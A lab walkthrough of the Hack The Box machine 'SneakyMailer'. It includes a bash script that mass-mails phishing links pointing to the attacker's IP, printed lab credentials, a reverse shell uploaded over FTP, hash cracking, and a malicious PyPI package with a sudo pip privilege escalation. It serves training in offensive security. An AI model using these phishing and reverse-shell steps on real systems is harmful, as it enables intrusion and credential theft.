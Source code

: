 # [SneakyMailer](https://app.hackthebox.com/machines/sneakymailer)

```bash
nmap -p- --min-rate 10000  10.10.10.197 -Pn
```

![Alt text](img/image.png)

After seeing open ports, let's do greater nmap scan for them.

```bash
nmap -A -sC -sV -p21,22,25,80,143,993,8080 10.10.10.197
```

![Alt text](img/image-1.png)



Directory brute-forcing

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.10.197 -H "Host: FUZZ.sneakycorp.htb" --hc 301
```

![Alt text](img/image-2.png)


I modify '/etc/hosts' file.

![Alt text](img/image-3.png)


On this endpoint 'team.php' , we have all emails of company workers.

![Alt text](img/image-4.png)


Let's grab all of them.

```bash
curl -s http://sneakycorp.htb/team.php | grep '@' | cut -d'>' -f2 | cut -d'<' -f1 > emails
```

![Alt text](img/image-5.png)


After grabbing emails, it's time to **Phishing** attack. I wrote a script to send Phishing emails to all users which we found before.

```bash
#!/bin/bash
for sender in $(cat emails)  #email contains lists of emails
do
        for rcv in $(cat emails)
        do
                echo "mail from:$sender"
                echo "rcpt to:$rcv"
                echo "data"
                echo "Subject: Looking for a job" 
                echo "http://10.10.16.5/clickme" #attackers ip
                echo "."
        done
done
```

This script is just sending emails between users and main part is that I put link which is my ip that I listening.


```bash
./sendemail.sh | nc 10.10.10.197 25 #smtp's port
```

![Alt text](img/image-7.png)

I do listening by adding `-k` option as because it keeps **LISTENING**.

![Alt text](img/image-8.png)


From here I grab credentials.Let's decrypt this via [Cyberchef](https://cyberchef.io/) tool.

![Alt text](img/image-9.png)

Grabbed credentials.

paulbyrd@sneakymailer.htb: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht


It's email credentials.Let's try to login Mail system of company via this user's credentials. For this, I use `claws-mail` tool.

![Alt text](img/image-10.png)



Here it is, I find credentials of 'developer' user.

![Alt text](img/image-11.png)


developer: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C


I used this credentials to login 'FTP' service.

![Alt text](img/image-12.png)

Here, I discover that, FTP service data is served via HTTP, that's why if I put reverse shell into FTP , I can easily got reverse shell by browsing HTTP(dev.sneakycorb.htb).

Here's my malicious reverse shell script.

![Alt text](img/image-13.png)

I already uploaded malicious file into FTP service.

![Alt text](img/image-14.png)


Let's browse and open listener to catch reverse shell.

![Alt text](img/image-15.png)


![Alt text](img/image-16.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-17.png)


After making some enumeration, I find interesting directory called '/var/www/pypi.sneakycorp.htb' and there is file called '.htpasswd'

![Alt text](img/image-18.png)


Let's grab hash and try to crack it.

```bash
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

I find password of user.

![Alt text](img/image-19.png)


pypi: soufianeelhaoui


We already do some enumeration, find that there we have also 'pypi.sneakycorp.htb' website which we can put **Python Package Repository**

I understand that I need to upload malicious package repository, for this I find this [blog](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/) to make this.

Here's my setup.py file.

![Alt text](img/image-20.png)


Then, I run below command.

```bash
python setup.py sdist
```

Then should create file called `~/.pypirc`

![Alt text](img/image-21.png)

We upload our package into remote repository.

```bash
python setup.py sdist upload -r sneaky
```

I got reverse shell already.

![Alt text](img/image-22.png)


user.txt

![Alt text](img/image-23.png)


We look at privileges of this user via `sudo -l` command.

![Alt text](img/image-24.png)



Now, I upload my reverse shell file into machine via `wget` command.
Then run pip3 command as because this user have **SUDO** privilege.

```bash
sudo pip3 install . 
```

![Alt text](img/image-25.png)


root.txt

![Alt text](img/image-26.png)